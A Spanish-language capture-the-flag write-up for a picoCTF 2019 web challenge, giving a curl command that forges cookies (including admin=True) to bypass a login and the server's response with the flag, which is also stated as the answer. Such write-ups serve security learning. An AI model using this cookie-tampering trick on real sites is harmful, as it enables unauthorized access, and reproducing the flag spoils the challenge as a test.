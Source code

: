 #Software #Hacking #WebExplotation #Web  #Redes 
# Definición
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/44573/` ([link](https://jupiter.challenges.picoctf.org/problem/44573/)) or http://jupiter.challenges.picoctf.org:44573
# Hints
- Hmm it doesn't seem to check anyone's password, except for Joe's?
# Solución
1. Tratamos de entrar con joe, pero no tenemos la contraseña.
2. Por lo que probamos entrar con otro usuario, y si bien nos deja entrar, no nos regresa la bandera.
3. Por lo que inspeccionamos la [[Red]] para ver como se maneja la solicitud.
4. Usamos curl para loggearnos como administrados en la página:
```bash
curl https://jupiter.challenges.picoctf.org/problem/44573/flag -H "Cookie: username=juan; password=a; admin=True"
```

Y obtenemos las bandera dentro del código:
```bash
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Factory Login</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation" class="active"><a href="/">Home</a>
                    </li>
                    <li role="presentation"><a href="/logout" class="btn btn-link pull-right">Sign Out</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Factory Login</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_0c98aacc}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF 2019</p>
        </footer>

    </div>
</body>

</html>
```
## Respuesta
picoCTF{th3_c0nsp1r4cy_l1v3s_0c98aacc}